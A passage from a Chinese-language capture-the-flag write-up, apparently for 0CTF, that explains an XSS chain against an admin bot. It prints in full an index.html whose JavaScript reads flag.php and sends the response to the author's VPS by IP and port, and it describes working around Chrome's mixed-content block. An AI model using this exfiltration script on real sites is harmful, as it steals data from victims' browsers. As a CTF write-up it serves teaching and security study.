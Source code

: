 这种形式去引用一个https://ip/index.html的数据，而且它能对index.html的js进行解析执行！

接下来的思路就是，让admin触发xss，iframe加载一个页面，页面中的js执行，访问flag.php，然后再把数据打到我们的VPS中。

Index.html页面如下

```html
<html>
<head>
</head>
<script>


/**
 * Created by moxiaoxi on 2017/3/20.
 */
function getinfo(str) {
    var node=document.createElement("script");
    node.type="text/javascript";
    node.src="http://104.224.169.90:6789/"+escape(str);
    document.getElementsByTagName("HEAD")[0].appendChild(node);
}

var xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET","https://router.vip/flag.php",true);
xmlhttp.onreadystatechange=function()
{
    //if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        getinfo(xmlhttp.responseText);
    }
}
xmlhttp.send();


</script>
</html>
```

可以看到，服务器执行了js

![xss1](https://moxiaoxi.info/img/post/0ctf/xss1.png)

但，此时我们的VPS是收不到的数据的，因为发送请求被Chrome拦截下来了

```
Mixed Content: The page at 'https://router.vip/preview.php' was loaded over HTTPS, but requested an insecure script 'http://104.224.169.90:6789/'. This request has been blocked; the content must be served over HTTPS.
```

https加载src一个http的页面，它会自动拦截掉。

所以，我们把前面的http改成https即可（注：这样会导致数据乱码，当时主要想测能不能弹数据）

此时可以在我们的VPS上看到数据：
